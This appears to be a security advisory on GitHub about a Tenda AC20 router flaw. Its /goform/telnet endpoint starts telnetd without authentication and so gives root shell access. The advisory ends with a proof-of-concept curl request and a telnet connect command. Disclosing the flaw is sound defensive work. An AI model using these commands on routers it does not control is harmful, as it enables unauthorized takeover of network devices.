



# Tenda AC20 telnet TendaTelnet OS Command Injection

## Summary

A remote command execution vulnerability exists in the Tenda AC20 router (firmware V16.03.08.12), allowing attackers to activate the telnet service via a specific HTTP endpoint. The vulnerability resides in the `TendaTelnet` function, which directly executes system commands to start the telnet service without proper input sanitization, enabling attackers to gain interactive shell access to the router and execute arbitrary commands.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: https://www.tenda.com.cn/material/show/3264

*   **Component**: `/goform/telnet` (inferred from `websFormDefine("telnet", TendaTelnet);` )

*   **Vulnerability Type**: Command Execution via Service Activation (CWE-78)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability stems from the `TendaTelnet` function, which is bound to the `/goform/telnet` endpoint via `websFormDefine("telnet", TendaTelnet);`. This function is designed to control the telnet service of the router but lacks essential input sanitization for system commands. The function's execution flow directly triggers system commands to enable and start the telnet service, allowing attackers to exploit it via a crafted HTTP request.

Key operations in the `TendaTelnet` function are as follows:


1.  **Parameter Retrieval**: The function calls `GetValue("lan.ip", v17)` to obtain the router's LAN IP address, stored in the `v17` buffer.

2.  **Console Activation**: It enables the system console via `console_control(1)` and sets the `console_switch` configuration to `enable` using `SetValue`, followed by committing the configuration with `CommitCfm()`.

3.  **Telnet Service Management**:

*   It first terminates any existing telnet service instances with `system("killall -9 telnetd")`.

*   It then starts a new telnet service bound to the retrieved LAN IP via `doSystemCmd("telnetd -b %s &", (const char *)v17)`, where `%s` is replaced with the LAN IP from `v17`.

1.  **Response**: The function returns a success message "load telnetd success." via `websWrite` with a 200 HTTP status code.

Critical issues in this flow:

*   Activation of telnetd allows attackers to connect to the router's telnet service and execute arbitrary system commands with root privileges (typical for router environments).
*   

## PoC: Exploit Steps

### 1. Activate Telnet Service

Send a POST request to the `/goform/telnet` endpoint to trigger the `TendaTelnet` function:


```
curl -i -X POST http://192.168.xxx.xxx/goform/telnet --http0.9
```
then use ctrl+c to quit，the you can start the telnet service of this router:



### 2. Connect via Telnet

```
telnet 192.168.xxx.xxx 80
```

Successful connection will provide an interactive shell:


